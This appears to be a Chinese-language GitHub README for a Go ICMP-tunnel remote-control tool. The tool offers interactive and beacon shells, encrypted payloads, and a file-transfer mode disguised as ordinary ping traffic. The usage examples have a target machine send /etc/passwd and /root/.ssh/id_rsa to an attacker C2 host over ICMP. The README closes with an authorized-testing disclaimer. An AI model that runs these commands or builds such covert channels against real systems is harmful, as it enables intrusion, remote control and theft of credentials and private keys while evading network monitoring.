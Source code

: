 ICMP隧道远控工具。

---

## ✨ 功能说明
+ **多模式操作**:
    - **会话模式 (**`session`**)**: 提供一个实时的、交互式的远程Shell。
    - **信标模式 (**`beacon`**)**: 客户端以固定的时间间隔回连（心跳），接收并执行服务端下发的指令队列。
+ **数据包步态，加密/编码支持**:
    - 支持 `AES` (CBC模式), `XOR`, `Base64`, `Base32` 以及 `none` (原文) 多种载荷处理方式。
    - 支持包长度、发包频率控制，以及部分协议字段自定义。
+ **文件传输**:
    - **普通文件传输 (**`filetrans`**)**: 高效、可靠地传输大文件，支持自定义MTU。
    - **隐藏文件传输 (**`filetrans-hide`**)**:  将文件数据块嵌入到**仿真**的`ping`命令载荷中，模拟的8字节`struct timeval`时间戳和固定的数据序列。

---

## 🚀 快速编译
### 1. 编译
Go 环境 (版本 >= 1.20)。

```bash
# 编译服务端
go build -o icmpsh_ser ./cmd/server/

# 编译客户端
go build -o icmpsh_cli ./cmd/shell/
```

## <font style="color:rgb(13, 18, 57);">🚀</font><font style="color:rgb(13, 18, 57);"> 快速上手</font>
+ **<font style="color:rgb(13, 18, 57);">攻击机</font>**<font style="color:rgb(13, 18, 57);">: 控制主机 (C2)，IP地址为</font><font style="color:rgb(13, 18, 57);background-color:#D8DAD9;">111.111.111.11</font><font style="color:rgb(13, 18, 57);">，在此主机运行服务端。</font>
+ **<font style="color:rgb(13, 18, 57);">目标机</font>**<font style="color:rgb(13, 18, 57);">: 在此主机上运行客户端。</font>

<font style="color:rgb(13, 18, 57);"></font>

### <font style="color:rgb(13, 18, 57);">场景一：</font>
获得一个beacon模式的交互式shell，通讯流量以AES加密

```html
./icmpsh_ser --token <共享密钥> --crypto-mode <加密模式>
./icmpsh_ser --token "MySecretKey123" --crypto-mode aes --mode beacon
```

<font style="color:rgb(13, 18, 57);"> --mtu 调整每次发送的数据块大小， --interval 控制发包频率，--crypto-mode 控制传输加密类型。</font>

```html
./icmpsh_cli --ip <服务端IP> --token <共享密钥> --crypto-mode <加密模式>
./icmpsh_cli --ip 111.111.111.11 --token "MySecretKey123" --crypto-mode aes  --mode beacon
```

### <font style="color:rgb(13, 18, 57);">场景二：</font>
传输单个文件。



<font style="color:rgb(13, 18, 57);">服务端接收文件，并将其保存为 icmp_trans_file。</font>

```html
# 语法: ./icmpsh_ser --token <共享密钥> --filetrans
./icmpsh_ser --token "MySecretKey123" --filetrans
```

<font style="color:rgb(13, 18, 57);">目标机上运行客户端， --filetrans 指定要发送的文件。 --mtu 调整每次发送的数据块大小，用 --interval控制发包频率，但不支持 --crypto-mode 控制传输加密类型。</font>

```html
# 语法: ./icmpsh_cli --ip <服务端IP> --token <共享密钥> --filetrans <文件路径>
./icmpsh_cli --ip 111.111.111.11 --token "MySecretKey123" --filetrans /etc/passwd --mtu 256 --interval 1
```

### <font style="color:rgb(13, 18, 57);">场景三：</font>
隐匿传输单个文件，<font style="color:rgb(13, 18, 57);">使用一个看起来和普通ping命令几乎一样的流量来传输文件</font>

<font style="color:rgb(13, 18, 57);"></font>

<font style="color:rgb(13, 18, 57);">服务端只负责接收数据，它不需要关心客户端是用哪种方式发送的。</font>

```html
./icmpsh_ser --token "MySecretKey123" --filetrans

```

<font style="color:rgb(13, 18, 57);">使用  --fth ( --filetrans-hide ) 参数。注意，在此模式下， --mtu 是无效的，载荷大小被固定为56字节以模仿 ping 命令，也不支持 --crypto-mode 控制传输加密类型。但可以支持用  --interval 控制发包频率。</font>

```html
# 语法: ./icmpsh_cli --ip <服务端IP> --token <共享密钥> --fth <文件路径>
./icmpsh_cli --ip 111.111.111.11 --token "MySecretKey123" --fth /root/.ssh/id_rsa

```



## <font style="color:rgb(13, 18, 57);">🔧</font><font style="color:rgb(13, 18, 57);"> 参数详解</font>
### <font style="color:rgb(13, 18, 57);">服务端 (icmpsh_ser)</font>
<font style="color:rgb(255, 255, 255);">全屏</font><font style="color:rgb(255, 255, 255);">复制</font>

| **<font style="color:rgb(255, 255, 255);">参数</font>** | **<font style="color:rgb(255, 255, 255);">别名</font>** | **<font style="color:rgb(255, 255, 255);">类型</font>** | **<font style="color:rgb(255, 255, 255);">默认值</font>** | **<font style="color:rgb(255, 255, 255);">描述</font>** |
| --- | --- | --- | --- | --- |
| <font style="color:rgb(0, 0, 0);">--token</font> | <font style="color:rgb(0, 0, 0);">-t</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"go-icmpshell"</font> | <font style="color:rgb(0, 0, 0);">用于客户端和服务端认证的共享密钥。</font> |
| <font style="color:rgb(0, 0, 0);">--filetrans</font> | <font style="color:rgb(0, 0, 0);">-ft</font> | <font style="color:rgb(0, 0, 0);">bool</font> | <font style="color:rgb(0, 0, 0);">false</font> | <font style="color:rgb(0, 0, 0);">启动文件接收模式。此模式下，其他模式和加密参数无效。</font> |
| <font style="color:rgb(0, 0, 0);">--mode</font> | <font style="color:rgb(0, 0, 0);">-m</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"session"</font> | <font style="color:rgb(0, 0, 0);">运行模式，可选: session (实时会话) 或 beacon (信标)。</font> |
| <font style="color:rgb(0, 0, 0);">--crypto-mode</font> | <font style="color:rgb(0, 0, 0);">-cm</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"none"</font> | <font style="color:rgb(0, 0, 0);">载荷加密/编码模式，可选: aes, xor, base64, base32, none。</font> |
| <font style="color:rgb(0, 0, 0);">--mtu</font> | | <font style="color:rgb(0, 0, 0);">int</font> | <font style="color:rgb(0, 0, 0);">666</font> | <font style="color:rgb(0, 0, 0);">(会话/信标模式) 定义单包最大载荷，最小为40。</font> |


### <font style="color:rgb(13, 18, 57);">客户端 (icmpsh_cli)</font>
<font style="color:rgb(255, 255, 255);">全屏</font><font style="color:rgb(255, 255, 255);">复制</font>

| **<font style="color:rgb(255, 255, 255);">参数</font>** | **<font style="color:rgb(255, 255, 255);">别名</font>** | **<font style="color:rgb(255, 255, 255);">类型</font>** | **<font style="color:rgb(255, 255, 255);">默认值</font>** | **<font style="color:rgb(255, 255, 255);">描述</font>** |
| --- | --- | --- | --- | --- |
| <font style="color:rgb(0, 0, 0);">--ip</font> | <font style="color:rgb(0, 0, 0);">-i</font> | <font style="color:rgb(0, 0, 0);">string</font> | **<font style="color:rgb(0, 0, 0);">(必需)</font>** | <font style="color:rgb(0, 0, 0);">要连接的服务端IP地址。</font> |
| <font style="color:rgb(0, 0, 0);">--token</font> | <font style="color:rgb(0, 0, 0);">-t</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"go-icmpshell"</font> | <font style="color:rgb(0, 0, 0);">共享密钥，必须与服务端匹配。</font> |
| <font style="color:rgb(0, 0, 0);">--filetrans</font> | <font style="color:rgb(0, 0, 0);">-ft</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">""</font> | <font style="color:rgb(0, 0, 0);">普通文件传输模式，值为要发送的文件路径。与 --fth 及其他模式互斥。</font> |
| <font style="color:rgb(0, 0, 0);">--filetrans-hide</font> | <font style="color:rgb(0, 0, 0);">-fth</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">""</font> | <font style="color:rgb(0, 0, 0);">隐藏文件传输模式，值为要发送的文件路径。与 --ft 及其他模式互斥。</font> |
| <font style="color:rgb(0, 0, 0);">--mode</font> | <font style="color:rgb(0, 0, 0);">-m</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"session"</font> | <font style="color:rgb(0, 0, 0);">运行模式，session 或 beacon。</font> |
| <font style="color:rgb(0, 0, 0);">--crypto-mode</font> | <font style="color:rgb(0, 0, 0);">-cm</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"none"</font> | <font style="color:rgb(0, 0, 0);">加密/编码模式，必须与服务端匹配。</font> |
| <font style="color:rgb(0, 0, 0);">--mtu</font> | | <font style="color:rgb(0, 0, 0);">int</font> | <font style="color:rgb(0, 0, 0);">666</font> | <font style="color:rgb(0, 0, 0);">定义单包最大载荷，最小为40。</font> |
| <font style="color:rgb(0, 0, 0);">--interval</font> | | <font style="color:rgb(0, 0, 0);">int</font> | <font style="color:rgb(0, 0, 0);">1</font> | <font style="color:rgb(0, 0, 0);">发包的时间间隔，单位为秒，最小为1。</font> |
| <font style="color:rgb(0, 0, 0);">--icmpId</font> | | <font style="color:rgb(0, 0, 0);">uint</font> | <font style="color:rgb(0, 0, 0);">1000</font> | <font style="color:rgb(0, 0, 0);">通信所使用的ICMP ID。</font> |


### <font style="color:rgb(13, 18, 57);">客户端各模式下参数有效性</font>
<font style="color:rgb(255, 255, 255);">全屏</font><font style="color:rgb(255, 255, 255);">复制</font>

| **<font style="color:rgb(255, 255, 255);">操作模式 (通过flag触发)</font>** | **<font style="color:rgb(255, 255, 255);">--mtu   </font>****<font style="color:rgb(255, 255, 255);">调整数据块大小</font>** | **<font style="color:rgb(255, 255, 255);">--interval   </font>****<font style="color:rgb(255, 255, 255);">控制发包频率</font>** | **<font style="color:rgb(255, 255, 255);">--crypto-mode   </font>****<font style="color:rgb(255, 255, 255);">控制传输加密类型</font>** |
| --- | :---: | :---: | :---: |
| **<font style="color:rgb(0, 0, 0);">会话/信标模式</font>**<font style="color:rgb(0, 0, 0);">   </font><font style="color:rgb(0, 0, 0);">(--mode)</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">✅</font><font style="color:rgb(0, 0, 0);"> (仅beacon)</font> | <font style="color:rgb(0, 0, 0);">✅</font> |
| **<font style="color:rgb(0, 0, 0);">普通文件传输</font>**<font style="color:rgb(0, 0, 0);">   </font><font style="color:rgb(0, 0, 0);">(--filetrans)</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">❌</font><font style="color:rgb(0, 0, 0);"> (仅支持原文)</font> |
| **<font style="color:rgb(0, 0, 0);">隐藏文件传输</font>**<font style="color:rgb(0, 0, 0);">   </font><font style="color:rgb(0, 0, 0);">(--fth)</font> | <font style="color:rgb(0, 0, 0);">❌</font><font style="color:rgb(0, 0, 0);"> (固定为56字节)</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">❌</font><font style="color:rgb(0, 0, 0);"> (仅支持原文)</font> |


## <font style="color:rgb(13, 18, 57);">⚠️</font><font style="color:rgb(13, 18, 57);"> 免责声明</font>
<font style="color:rgb(13, 18, 57);">本工具仅供授权的渗透测试和安全研究使用。作者不对任何滥用本工具造成的后果负责。请遵守当地法律法规。</font>

